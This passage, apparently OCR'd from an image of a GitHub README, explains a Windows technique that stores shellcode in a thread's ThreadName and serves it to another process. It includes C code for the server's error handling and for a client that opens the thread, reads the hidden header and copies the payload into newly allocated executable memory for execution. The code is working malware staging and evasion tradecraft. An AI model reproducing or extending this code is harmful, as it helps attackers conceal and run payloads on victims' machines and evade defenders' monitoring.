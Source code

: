 ```C

		case DSERVE_ERROR_ALLOC:
			puts("a memory allocation failure occured");
			break;

		case DSERVE_INVALID_PARAMS:
			puts("the parameters were invalid");
			break;
		}

		return 0;
	}

	printf("Serving %d bytes of content on thread ID %d using key 0x%X\n", sizeof(bShellcode), GetCurrentThreadId(), dHdr.Key);
	return 1;
}
```

Using the `tname_init_hdr` method will construct the header for us. The `dearg_serve` method sets up the header for us, finds an appropriate key to encode (if needed), and sets the `ThreadName`.

## Client

As the client, we somehow need to find the thread which is our server in this case. We can differentiate the read that is hosting the data by reading the `ThreadName`, and checking for our magic `0x1337BEEF`. After we've read the header, if we need write access, we need to re-open the handle with `THREAD_SET_INFORMATION`. Next, we read the length of the data in the `u16Len` member. After this, we read the data which is placed after the header and place it into a buffer. We then get a hash of the data, and compare it against the hash in the header - this ensures that the data we're reading has gone untampered.

The way in which you find the thread is totally up to the implementation, you could walk all the threads on the system, or pass the thread ID some other way. In the example below, we read shellcode from a thread with an ID of 1337, and execute the shellcode it is serving.

```C
HANDLE hThread = OpenThread(THREAD_QUERY_LIMITED_INFORMATION, FALSE, 1337);
if (hThread == INVALID_HANDLE_VALUE)
{
	return FALSE;
}

DEARG_HEADER dHdr;
RtlSecureZeroMemory(&dHdr, sizeof(DEARG_HEADER));

// first, get the buffer size by heading the header
if (dearg_read(hThread, &dHdr, NULL, 0) != DSERVE_NO_DATA_OUT) 
{
	return FALSE;
}

// allocate the executable memory with the size from the header
LPVOID lpMem = VirtualAlloc(NULL, dHdr.u16Size, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
if (lpMem == NULL)
{
	return FALSE;
}

// read in the data
if (dearg_read(hThread, &dHdr, lpMem) != DSERVE_OK) 
{
	return FALSE;
}
```